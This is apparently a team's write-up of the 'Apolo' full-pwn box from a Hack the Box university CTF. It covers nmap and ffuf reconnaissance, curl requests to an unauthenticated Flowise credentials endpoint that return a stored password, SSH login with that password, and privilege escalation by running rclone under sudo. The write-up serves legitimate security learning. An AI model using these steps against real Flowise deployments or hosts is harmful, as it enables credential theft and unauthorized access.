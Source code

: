 Apolo is the first of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 
## Reconnaissance 

```
Nmap scan report for apolo.htb (10.129.242.73)

Host is up (0.015s latency).

rDNS record for 10.129.242.73: apolo.htb

Not shown: 998 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)+

| ssh-hostkey: 

|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)

|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)

|_  256 189d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)

|_http-title: Flowise - Low-code LLM apps builder

|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_ker

```

We also check for vhost using ffuf : 

`ffuf -c -w /user/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "[http://$target/](about:blank)" -H "Host: FUZZ.$TARGET" -fc 301`

And we get a hit on a subdomain : `ai.apolo.htb`

Let’s add these two entries in our `/etc/hosts` and enumerate the two hosts : 
```
10.129.242.73 apolo.htb
10.129.242.73 ai.apolo.htb
```
  
The first webpage `apolo.htb` is just a full static website with nothing interesting, our directory fuzzing wasn’t very concluding so we decided to check the other vhost. 

Upon accessing `ai.apolo.htb` we are prompted with a login form for a flowiseai  instance. 

![Login form](/HTB-UNIVERSITY-2024/images/login_form.png)

Checking the version number of the flowingAI instance revealed that it was vulnerable to this CVE : [https://www.exploit-db.com/exploits/52001](https://www.exploit-db.com/exploits/52001)

After using the POC on the website we can confirm that it's indeed vulnerable
 
```
curl [http://ai.apolo.htb/Api/v1/credentials](http://ai.apolo.htb/Api/v1/credentials) [{"id":"6cfda83a-b055-4fd8-a040-57e5f1dae2eb","name":"MongoDB","credentialName":"mongoDBUrlApi","createdDate":"2024-11-14T09:02:56.000Z","updatedDate":"2024-11-14T09:02:56.000Z"}`
```
## User flag

So we can now `curl [http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb](http://ai.apolo.htb/Api/v1/credentials6cfda83a-b055-4fd8-a040-57e5f1dae2eb)`

And retrieve some credentials : 

```
Username: lewis

Password: C0mpl3xi3Ty!_W1n3

Cluster: cluster0.mongodb.net

Database: myDatabase
```

We could then login onto the flowiseAI instance we thought we had to RCE from there, but a teammate of us pointed out that these credentials could be used to authenticate on the server using SSH. 

![ssh_login](/HTB-UNIVERSITY-2024//images/ssh_login.png)
And voilà : we have our user.flag in the usual location (/home/lewis/user.txt)

 ![user_flag](/HTB-UNIVERSITY-2024//images/user_flag.png)
## Root flag

Now that we have a shell on the box, let’s check out what our user can execute on the machine : 

![sudo_L](/HTB-UNIVERSITY-2024//images/sudo_L.png)

We are allowed to execute /usr/bin/rclone with sudo permissions on the machine. 

When checking out the man and help page of the rclone command we have : 

`Rclone  is a command-line program to manage files on cloud storage.  It is a feature-rich alternative to cloud vendors web storage interfaces.`

![rclone](/HTB-UNIVERSITY-2024//images/rclone.png)

We can execute cat through rclone, and since we can execute rclone with root priviledges, we can simply : 

![rootflag](/HTB-UNIVERSITY-2024//images/rootflag.png)

